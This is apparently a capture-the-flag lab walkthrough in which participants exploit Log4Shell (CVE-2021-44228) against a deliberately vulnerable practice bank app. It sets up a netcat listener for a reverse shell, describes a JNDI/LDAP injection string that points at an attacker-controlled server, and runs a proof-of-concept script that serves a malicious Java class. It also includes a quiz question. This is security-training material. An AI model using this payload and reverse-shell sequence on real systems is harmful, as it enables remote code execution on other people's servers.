

### Background

During the close of 2021 there was a vulnerability released and given the CVE (Common Vulnerability Enumeration) ID CVE-2021-44228.

This new critical vulnerability has been found in log4j, a widely-used open-source utility used to generate logs inside java applications.

You know it's a good one when they give it a logo or a name. This one was called Log4Shell because it permits Remote Code Execution (RCE), allowing attackers to execute arbitrary code on the host. More specifically, it allows an attacker to get a working shell on the host!

The anatomy of it is both simple and complicated at the same time.

It uses a combination of technologies:

- JNDI - The Java Naming and Directory Interface (JNDI) provides an API for java applications, which can be used for binding remote objects , looking up or querying objects

- LDAP - Lightweight directory access protocol (LDAP) is a protocol that makes it possible for applications to query user information remotely and rapidly

- The fact that lookups in Log4j are triggered by special ${....} sequences, like this:

```
console\cloud9: java TryLogger.java "${env.OS}/${env.Version}"
```

### Your Mission
In this instance the "Hounds" are a basic hacking toolkit for our log4shell attack on the Bank.

In your AWS Console go to your Cloud9 command center! (okok, it's just a web IDE, but still!)

You DO NOT need to create a new environment. One has been created for you called "JankyBank-CTF...". Find it under "Shared with me" and click "Open IDE".

We'll need two terminals side by side for our attack. You can dismiss the Welcome tab and click the green '+' to create the first New Terminal.

Let's start a second terminal next to it.

{}
<p style='text-align: left;'>
In the top menu go to View, Layout and click Horizontol Split. In our second panel click on the '+' to start a new terminal. You should now have two terminals side by side.
</p>
{}


 *Going forward we will refer to the left as Terminal 1 and the right as Terminal 2* 

In your Cloud 9 console you should see a directory called log4sheller.

Execute the following commands and see what's there:

```
cd log4sheller
ls
```

Output:

```
LICENSE  README.md  init.sh  jdk1.8.0_20  netcat.sh  poc.py  requirements.txt  target
```

We will use the tools netcat.sh and poc.py in tandem with Log4janky bank to exploit the details above.

#### Terminal 1:
Prepare to receive an incoming connection which will provide us a reverse shell into the running application host

To do this run the netcat.sh utility using a unique port number found in the "NetCatPort" range located in the Output properties panel.

Eg.

```
bash netcat.sh NetCatPort
```

The output should run netcat AND explain each of the parameters being used and why. The final line should look like this:

```
Listening on [0.0.0.0] (family 0, port NetCatPort)
```

#### Terminal 2:
Here's what we're going to do.

We worked out in a previous Task that if we log into the Bank with a bad username and password it said it was logging our details. One would assume that it may specifically log the username in order to see if this was a brute force attack.

If we take advantage of what we know above we can craft a loggable username that will trigger our vulnerability. Let's start with putting something in variable brackets that needs to be resolved very much like it does in Cloud Formation

Eg. Both Cloud Formation and Java use a variable format notation like
`${resolvable variable}`
We know that if we use JNDI to indicate that we are binding a new java class. That would look like

`${jndx:path to my java class}`
Finally, rather than a direct path to a class we provide an LDAP server which Java can also resolve. Our malicious LDAP server will return a simple web server to offer up a malicious new Java class. Clever isn't it!

The final result will actually look like this

`${jndx:ldxp://yourip:1389/a}`
We're going to need our IP address so the Bank knows where to find us.
We will also need to pick a port that is externally available.

Check the Output Properties panel of our setup CloudFormation for the available port ranges we will need. You can choose any unique port between the ranges provided in the output for the command parameters:

- Cloud9IP
- WebPort

Let's run our `poc.py` code using these parameters. The NetCat Port is the same one we used back in Step 1.

Eg.

```
python3 poc.py --userip Cloud9IP  --webport WebPort  --lport NetCatPort
```


The output will explain each step. It will even generate a new Exploit.class on the fly, start up a webserver to serve it up and will give you the jndi string you require to being our attack.

The last two lines of output will be

```
[+] Starting Webserver on port  http://0.0.0.0:webport
Listening on 0.0.0.0:1389
```

What is the unique generated attack string?

Lets move on to attacking the bank with our prepared Log4Shell exploit...